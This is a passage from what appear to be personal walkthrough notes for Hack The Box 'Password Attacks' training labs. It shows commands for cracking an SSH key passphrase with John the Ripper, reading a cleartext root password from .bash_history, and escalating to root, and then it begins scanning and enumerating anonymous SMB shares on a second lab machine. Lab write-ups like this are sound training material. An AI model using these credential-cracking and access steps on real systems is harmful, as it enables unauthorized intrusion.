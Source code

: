   * We get the SSH keys from this FTP share - we can use this to log into the box:

    ```sh
    # we can first crack the id_rsa file
    chmod 600 id_rsa

    ssh2john id_rsa > hash_id_rsa

    john --wordlist=password.list hash_id_rsa
    # this gives passphrase '7777777'

    ssh mike@password-attacks-1.htb -i id_rsa

    ls -la
    # check files in mike home directory for any clues

    less .bash_history
    # this contains cleartext password "dgb6fzm0ynk@AME9pqu"

    su -
    # switch to root user
    # this password works
    ```

* Password Attacks Lab - Medium:

  * Map given machine to ```password-attacks-2.htb``` in ```/etc/hosts```

  * Scan given machine - ```nmap -T4 -p- -A -Pn -v password-attacks-2.htb```

  * We have SSH on port 22 and SMB on ports 139 & 445

  * Footprinting SMB:

    ```sh
    smbclient -N -L //password-attacks-2.htb
    # we have print$, SHAREDRIVE and IPC$

    smbclient //password-attacks-2.htb/SHAREDRIVE
    # this works without password

    dir
    # we have a .zip file
